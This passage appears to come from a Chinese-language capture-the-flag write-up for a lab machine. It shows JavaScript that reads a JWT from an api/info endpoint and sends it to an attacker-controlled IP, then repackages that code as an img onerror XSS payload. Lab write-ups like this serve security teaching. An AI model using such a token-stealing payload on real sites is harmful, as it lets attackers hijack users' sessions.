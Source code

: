 ![image-20241126094801731.png](BlockBlock/image-20241126094801731.png)

同时在 Burp 中发现会不间断请求 `api/info` 来返回 jwt_token，因此使用 js 获取此请求响应。将响应内容作为参数请求到 HTTP 服务器中，达成 XSS + CSRF。

```JavaScript
fetch('http://10.10.11.43/api/info')
	.then(resp => { return resp.text()})
	.then(jwt => {fetch(`http://10.10.16.5/xss?c=${jwt}`)})
```

整理到 img 标签

```JavaScript
<img src=x onerror="fetch('http://10.10.11.43/api/info').then(resp=>resp.text()).then(jwt=>fetch(`http://10.10.16.5/x?c=${jwt}`))">
```

![image-20241126100209001.png](BlockBlock/image-20241126100209001.png)
